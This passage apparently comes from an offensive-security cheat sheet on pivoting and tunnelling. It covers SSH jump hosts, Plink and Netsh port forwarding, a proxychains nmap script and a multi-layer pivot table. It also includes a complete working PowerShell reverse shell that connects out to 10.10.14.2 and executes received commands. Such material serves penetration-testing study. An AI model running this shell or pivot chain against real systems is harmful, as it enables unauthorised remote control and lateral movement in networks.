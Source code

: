 #### 🧩 Example: Two Internal Hops

```bash
ssh -J user@pivot1 user@pivot2
```

or with dynamic forwarding:

```bash
ssh -D 1080 -J user@pivot1 user@pivot2
```

***

### VIII. 💀 Windows-Side Tunneling

#### 🧠 1. Using Plink (PuTTY Command-Line)

```powershell
plink.exe -ssh user@10.10.14.2 -L 8080:127.0.0.1:80 -N
```

#### 💣 2. Using Netsh

```powershell
netsh interface portproxy add v4tov4 listenport=8080 connectaddress=10.10.0.5 connectport=80
```

#### ⚙️ 3. PowerShell Reverse Tunnel

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.2',9001);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback + 'PS ' + (pwd).Path + '> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

***

### IX. 🧩 Pivot Automation Example

#### 🔹 Local Enumeration + SOCKS Pivot Script

```bash
#!/bin/bash
target=$1
echo "[*] Scanning internal via pivot..."
proxychains nmap -sT -Pn -p 22,80,445,3389 $target
```

***

### X. 🧠 Advanced Multi-Layer Pivoting

| Layer | Tool                 | Description                      |
| ----- | -------------------- | -------------------------------- |
| 1️⃣   | SSH -D               | First SOCKS tunnel to pivot host |
| 2️⃣   | Chisel R:1080:socks  | Chain pivot deeper               |
| 3️⃣   | ProxyChains          | Route scanner through both       |
| 4️⃣   | Metasploit route add | Automate pivot inside sessions   |
